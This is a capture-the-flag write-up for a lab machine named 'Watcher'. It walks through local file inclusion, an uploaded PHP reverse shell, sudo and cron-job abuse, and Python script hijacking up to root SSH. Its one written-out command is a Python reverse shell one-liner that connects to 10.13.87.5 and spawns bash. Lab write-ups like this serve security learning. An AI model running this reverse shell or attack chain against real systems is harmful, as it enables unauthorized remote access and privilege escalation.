Watcher
Enumeration
nmap -sV -A -v 10.201.4.47

We have 3 ports that appear to be open.
We cannot connect to port 21 via anonymous login. My only option is to go to port 80 and see what's up.

Looks like a normal website. There are only 4 pages I can navigate to, one of them being the home page.
DirBuster doesn't reveal anything interesting about the website subdomains, but upon manual enumeration, I notice the URL uses PHP to read files. See the URL below:

I try to see if I can abuse this and perform a local file inclusion.
LFI

Success. This gives us some useful information. Namely, we see that the exploit is working, and we can navigate through the file system if we know file names. We also see a list of users:
- ftpuser
- toby
- mat
- will
Maybe we can SSH to a user in the future, but for now, this LFI is giving me an idea that we might be able to do an RCE. I bet FTP has something to do with it, but I don't have a login.
robots.txt
Some enumeration later, I forgot to check in on /robots.txt.

Flag 1
Sure enough, here are some files that seem to be hidden within the file system. Luckily, we can open them using the LFI.


We have the credentials. Now to connect to the FTP and drop a reverse shell and see if we can open it through the LFI.
FTP PHP Reverse Shell and Flag 2

Another flag. I retrieve it using:
get flag_2.txt
Changing into the file directory, it seems to be empty — a perfect place to drop the reverse shell into. After dropping it in, I set up a netcat listener to catch the reverse shell. Now, we can navigate to the shell via the LFI.
Noting that one of the users was ftpuser from the /etc/passwd file, I try navigating to their home directory to see if there is any luck.

We are in.
Stabilize Shell and Flag 3
The first thing I do is stabilize the shell.

Then, I want to investigate /var/www/html for anything more that may have been hidden.

We found flag 3 in a hidden directory that DirBuster wouldn't have picked up on. Now, time to head to the home directory.

We see all of the users from the /etc/passwd leak. The ubuntu directory was empty. Looking through all of the other directories reveals a chain of command. Our goal is to connect to these users in this specific order:
www-data (current) --> toby --> mat --> will
Going into the toby directory, we have 2 files and a directory called jobs. I suspect that I will need to look in /etc/crontab.

Crontab
Looking in crontab, we see we have 1 program that is set to run occasionally.

Unfortunately, we can't use that just yet — we do not have permission to write to this file. Running sudo -l gives us useful information.

User Toby
We can run sudo as toby without a password. This means we can move laterally to toby's account.
sudo -u toby bash

Now we can try and use the cron job under the jobs directory. But first, let's get the flag.

Flag 4
Listing the directory contents under toby one more time, I see that there is a note.txt.

It even mentions the cron job — thank you Mat. The cron job in question seems to be copying a file called cow.jpg. The important thing is that we can now edit it to host another reverse shell. Since we can't use nano, we can use echo.

Now, I set another netcat listener.


User Mat and Flag 5
We are on Mat's account now. We can retrieve the flag from his directory.

Again, there is a note and a directory to explore.
Python Script Hijacking

A python script that can be run as sudo — we can spawn yet another shell with this. The one we can edit is cmd.py; the other is owned by will.

We can append a python reverse shell line to cmd.py and run it under will's user.
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.87.5",3245));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> /home/mat/scripts/cmd.pysudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py *
User Will and Flag 6
I need to have another netcat listener for this one.

We are now on will's account and can cat flag_6.txt.

Since we ran out of directories to explore, we can start doing normal enumeration. We can check the group ID that will belongs to in order to get a better idea of what permissions he has.

Seeing that he is part of the admin group, we can go to /opt and retrieve an encrypted base64 key.
SSH to Root
Transferring this to my attacking machine gives me an opportunity to decode it and log in through SSH as root using the id_rsa as the key.

Root Flag
